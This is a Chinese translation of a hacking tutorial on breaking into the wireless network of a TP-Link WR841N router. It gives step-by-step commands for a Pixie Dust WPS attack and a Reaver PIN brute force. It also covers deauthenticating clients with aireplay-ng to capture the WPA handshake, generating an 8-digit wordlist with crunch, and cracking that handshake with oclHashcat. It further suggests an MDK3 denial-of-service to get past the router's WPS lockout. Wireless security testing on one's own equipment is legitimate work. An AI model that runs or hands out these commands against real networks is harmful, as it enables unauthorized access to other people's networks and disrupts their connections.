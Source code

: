 > 原文链接: https://www.anquanke.com//post/id/85018 


# 【技术分享】 如何破解TP link WR841N路由器无线网络（含演示视频）


                                阅读量   
                                **227182**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：hackingtutorials
                                <br>原文地址：[http://www.hackingtutorials.org/wifi-hacking-tutorials/how-to-hack-a-tp-link-wr841n-router-wireless-network/#prettyPhoto](http://www.hackingtutorials.org/wifi-hacking-tutorials/how-to-hack-a-tp-link-wr841n-router-wireless-network/#prettyPhoto)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t01b4eb8535b889c951.jpg)](https://p4.ssl.qhimg.com/t01b4eb8535b889c951.jpg)

****

**翻译：**[**secist**](http://bobao.360.cn/member/contribute?uid=1427345510)

**预估稿费：100RMB（不服你也来投稿啊！）**

**投稿方式：发送邮件至**[**linwei#360.cn******](mailto:linwei@360.cn)**，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**



**前言**

在这篇文章中，我将会向你展示如何破解TP Link WR841N路由器无线密码。这款 TP Link路由器外壳上有８个字符的PIN码并默认支持WPS PIN作为WiFi密码。基于以上特点，我将尝试以下技术来破解TP Link WR841N无线密码：

１.首先我将使用Pixiedust WPS Reaver 1.5.2和Aircrack-ng套件来尝试获取密码。

２.接着我将尝试使用reaver来获取WPS PIN码。

３.最后我将使用Airodump-ng来抓取四步握手过程，并使用crunch生成默认密码列表，并结合oclHashcat进行爆破。

<br>

**1.使用 Reaver 实现 Pixie Dust WPS 攻击**

让我们先通过以下命令将网卡设置为监听模式：

```
airmon-ng start wlan0
```

在 kali 2.0 sana 版本下，出现以下错误：

```
[X] ERROR: Failed to open ‘wlan0mon’ for capturing
```

解决方案如下：

1. 首先将网卡设置为监听模式 airmon-ng start wlan0

2. 上步操作将会启动一个名为 wlan0mon 的监听网卡

3. 使用 iwconfig 命令，检查网卡模式是否仍处于管理模式，如果是的话我们使用以下命令来将其设置为监听模式：



```
ifconfig wlan0mon down
iwconfig wlan0mon mode monitor
ifconfig wlan0mon up
```

4. 再次使用 iwconfig 命令检查其是否已经成功设置为监听模式

5. 启动：airodump-ng wlan0mon up

特殊情况下我们可以杀死KAIL的相关进程。

[![](https://p1.ssl.qhimg.com/t01fe4b5ebed681fa56.jpg)](https://p1.ssl.qhimg.com/t01fe4b5ebed681fa56.jpg)

现在让我们启动 airodump-NG 获取目标的 BSSID，MAC 地址和 channel 。

```
airodump-ng -i wlan0mon
```

下面我们使用获取到的 BSSID 和 channel 结合Reaver来获取目标的 PKE, PKR, e-hash 1&amp;2, E/R-nonce 和 authkey 以供 pixiewps 破解使用：

```
Reaver -i wlan0mon -b [BSSID] -vv -S -c [AP channel]
```

[![](https://p1.ssl.qhimg.com/t0127f2425455b4e549.jpg)](https://p1.ssl.qhimg.com/t0127f2425455b4e549.jpg)

现在我们启动 pixiewps 如下：

[![](https://p0.ssl.qhimg.com/t018d46fbc5eee45296.jpg)](https://p0.ssl.qhimg.com/t018d46fbc5eee45296.jpg)

基本参数；



```
- E-HASH1，这个hash 值是我们破解前半部分 PIN 码所要使用的 hash 。
- E-HASH2，这个hash 值是我们破解后半部分 PIN 码所要使用的 hash 。
- HMAC ,是密钥相关的哈希运算消息认证码。
- PSK1，是路由器PIN码的前半段（有10,000种可能性）
- PSK2，是路由器PIN码的后半段（这里有1000种可能性，因为其中一位为效验码。就算有10000种可能性，对我们而言依旧很轻松就能破解）。
- PKE，是注册人的公钥（用于验证WPS交换的合法性和防止重放）。
- PKR，是注册的公钥（用于验证一个WPS交换的合法性和防止重放）。
```

从结果可以看出，该路由器不存在可被 WPS 攻击的漏洞。

<br>

**2.Reaver WPS PIN 攻击**

我们使用如下命令开始进行 WPS PIN 攻击：

```
reaver -i wlan0mon -b [BSSID] -vv -c 1 -d 5 –w
```

不幸的是在 6 次尝试破解后，路由器的锁定机制被触发，导致我们无法继续在进行爆破尝试。如果出现这种情况，我们其实可以使用 MDK3 来对目标发起 DoS 强制断开目标网络，致使其路由器重启，从而帮助我们绕过锁定机制。

[![](https://p4.ssl.qhimg.com/t01339e239430e4b9a5.jpg)](https://p4.ssl.qhimg.com/t01339e239430e4b9a5.jpg)

<br>

**3.使用 oclHashcat 暴力破解路由器**

让我们看看我们是否可以通过捕捉4次握手包，及使用默认路由器密码列表来进行离线的暴破来得到密码。我们将使用以下工具：

1. 使用 crunch 来生成密码列表。

2. 使用 airodump-ng 来捕捉四次握手包。

3. 使用 airplay-ng 来打断目标客户机连接。

4. Windows下使用 oclHashcat GPU。

首先让我们使用 crunch 来生成字典：

```
crunch 8 8 1234567890 -o /root/Desktop/88numlist.txt
```

这可能需要一段时间，将会生成一个　９００　Ｍ大小，由８位数字所有组合的字典表。

接着，让我们来通过　Airodump-ng 和 Aireplay-ng　来抓取目标的握手包数据。我们先用　Airodump-ng　来找到我们的目标：

```
airodump-ng wlan0mon
```

现在选择你目标的BSSID和 channel，并重新启动以上命令：

```
airodump-ng –bssid [BSSID] -c [channel]-w [握手包 .cap]wlan0mon
```

最后我们打开一个新的 terminal 窗口，并使用 Aireplay-ng 来强制打断目标连接使其重新连接。命令如下：

```
aireplay-ng -0 2 -a [BSSID] -c [Client MAC] wlan0mon
```

可以看到我们成功使目标客户机重新连接，并成功的抓取到了四步握手过程！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012ef56f1b1f0f6b9c.jpg)

第3步：猜解默认路由器密码列表

我们将在Windows上使用oclHashcat GPU结合我们之前生成的密码字典来破解 WIFI 密码。

在此之前，我们必须将.CAP文件转换为.hccap文件。命令如下：

```
aircrack-ng -J [Filepath to save .hccap file] [Filepath to .cap file]
```

现在，我们就可以在Windows上启动oclHashcat开始进行暴破任务啦！

```
oclhashcat64.exe -m 2500 -w 3 –[gpu-temp-retain=60] –status -o cracked.txt tplink.hccap 88numlist.txt
```

不一会时间，密码就被成功爆破：

```
oclhashcat
```

<br>

**演示视频**


